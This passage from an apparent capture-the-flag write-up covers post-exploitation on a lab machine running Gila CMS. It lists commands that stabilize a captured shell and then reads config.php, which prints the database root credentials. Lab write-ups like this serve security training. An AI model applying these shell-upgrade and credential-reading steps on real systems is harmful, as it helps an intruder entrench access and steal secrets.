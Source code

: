 ***

First thing to do is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250428142942.png)

If we check `config.php`:

```bash
www-data@cmess:/var/www/html$ cat config.php
<?php

$GLOBALS['config'] = array (
  'db' =>
  array (
    'host' => 'localhost',
    'user' => 'root',
    'pass' => 'r0otus3rpassw0rd',
    'name' => 'gila',
  ),
  'permissions' =>
  array (
    1 =>
    array (
      0 => 'admin',
      1 => 'admin_user',
      2 => 'admin_userrole',
    ),
  ),
  'packages' =>
  array (
    0 => 'blog',
  ),
  'base' => 'http://cmess.thm/gila/',
  'theme' => 'gila-blog',
  'title' => 'Gila CMS',
  'slogan' => 'An awesome website!',
  'default-controller' => 'blog',
  'timezone' => 'America/Mexico_City',
  'ssl' => '',
  'env' => 'pro',
  'check4updates' => 1,
  'language' => 'en',
  'admin_email' => 'andre@cmess.thm',
  'rewrite' => true,
);
```

